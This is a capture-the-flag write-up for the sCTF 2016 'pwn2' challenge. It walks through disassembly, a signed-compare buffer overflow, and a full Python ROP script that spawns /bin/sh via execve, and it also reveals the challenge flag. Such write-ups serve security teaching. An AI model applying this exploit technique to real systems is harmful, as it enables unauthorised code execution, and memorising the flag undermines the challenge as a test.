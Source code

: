 ## pwn2 - 120 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
Update: A system call was changed to allow the binary to work on some 32 bit systems. This doesn't change the flag or how it's solved. Only enables 32 bit compatibility on those systems.

Echo servers are easy stuff, right?
`nc problems2.2016q1.sctf.io 1338`

### Hint ###
You're gonna need your utility belt, full of gadgets, to solve this one.

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on /bin/sh.

### Details ###

We open up the binary and yet again find that there is a function named vuln for us to look at, how convenient.

```asm
.text:0804852F                                      public vuln
.text:0804852F                      vuln            proc near               ; CODE XREF: main+31p
.text:0804852F
.text:0804852F                      nptr            = byte ptr -2Ch
.text:0804852F                      var_C           = dword ptr -0Ch
.text:0804852F
.text:0804852F 55                                   push    ebp
.text:08048530 89 E5                                mov     ebp, esp
.text:08048532 83 EC 48                             sub     esp, 48h
.text:08048535 C7 04 24 80 86 04 08                 mov     dword ptr [esp], offset format ; "How many bytes do you want me to read? "
.text:0804853C E8 2F FE FF FF                       call    _printf
.text:08048541 C7 44 24 04 04 00 00+                mov     dword ptr [esp+4], 4
.text:08048549 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804854C 89 04 24                             mov     [esp], eax
.text:0804854F E8 8F FF FF FF                       call    get_n
.text:08048554 8D 45 D4                             lea     eax, [ebp+nptr]
.text:08048557 89 04 24                             mov     [esp], eax      ; nptr
.text:0804855A E8 61 FE FF FF                       call    _atoi
.text:0804855F 89 45 F4                             mov     [ebp+var_C], eax
.text:08048562 83 7D F4 20                          cmp     [ebp+var_C], 20h
.text:08048566 7E 15                                jle     short loc_804857D
.text:08048568 8B 45 F4                             mov     eax, [ebp+var_C]
.text:0804856B 89 44 24 04                          mov     [esp+4], eax
.text:0804856F C7 04 24 A8 86 04 08                 mov     dword ptr [esp], offset aNoThatSizeDIsT ; "No! That size (%d) is too large!\n"
.text:08048576 E8 F5 FD FF FF                       call    _printf
.text:0804857B EB 39                                jmp     short locret_80485B6
.text:0804857D                      ; ---------------------------------------------------------------------------
.text:0804857D
.text:0804857D                      loc_804857D:                            ; CODE XREF: vuln+37j
.text:0804857D 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048580 89 44 24 04                          mov     [esp+4], eax
.text:08048584 C7 04 24 CC 86 04 08                 mov     dword ptr [esp], offset aOkSoundsGood_G ; "Ok, sounds good. Give me %u bytes of da"...
.text:0804858B E8 E0 FD FF FF                       call    _printf
.text:08048590 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048593 89 44 24 04                          mov     [esp+4], eax
.text:08048597 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804859A 89 04 24                             mov     [esp], eax
.text:0804859D E8 41 FF FF FF                       call    get_n
.text:080485A2 8D 45 D4                             lea     eax, [ebp+nptr]
.text:080485A5 89 44 24 04                          mov     [esp+4], eax
.text:080485A9 C7 04 24 F8 86 04 08                 mov     dword ptr [esp], offset aYouSaidS ; "You said: %s\n"
.text:080485B0 E8 BB FD FF FF                       call    _printf
.text:080485B5 90                                   nop
.text:080485B6
.text:080485B6                      locret_80485B6:                         ; CODE XREF: vuln+4Cj
.text:080485B6 C9                                   leave
.text:080485B7 C3                                   retn
.text:080485B7                      vuln            endp
```

Pretty straight-forward, get_n gets a string and then atoi converts it to a value.

Signed compare for if its too big, but buffer size is unsigned. Enter a negative value and you can enter as many characters as you want.

nptr is 0x30 from the stack buffer so we can get eip control like so:

```python
print '-1'
# Overflow
rop = ('A'*0x30)
```

Now the next value we write will be eip at the end of the function.

Now to build a syscall to execve, first we need "/bin/sh" in memory. So we call get_n with an address thats writeable.

```python
# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'
```

Essentially `get_n(0x804a024, 0x42424242);`

After that we can just print "/bin/sh\0" and get a C string for /bin/sh in the file.

Now we need to setup the syscall params.

```python
# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax
```

Here we print "/bin/sh" which will set `ecx` to 7 and coincidentally `ecx` will also end up being 7.

```python
# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'
```

Simply pop the ptr to "/bin/sh" into `ebx`

```python
# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'
```

This probably looks pretty cancer, and it is. This takes `ecx` and increments/doubles it up to be a pointer to zero, this is so that the argv/argc for /bin/sh are valid. (Also I wrote a script to generate this chain rather than me having to hand write it, generation script not included).

```python
# int 0x80
rop += '\xd0\x84\x04\x08'
print rop
print '/bin/sh\0'
```

And finally call execve to make the shell.

We print the rop chain and the input value for the get_n.


### Flag ###

The flag we get when running this on the server is `sctf{r0p_70_th3_f1n1sh}`


### Full Script ###

```python
print '-1'
# Overflow
rop = ('A'*0x30)

# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'

# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax

# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'

# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'

# int 0x80
rop += '\xd0\x84\x04\x08'

print rop
print '/bin/sh\0'
```
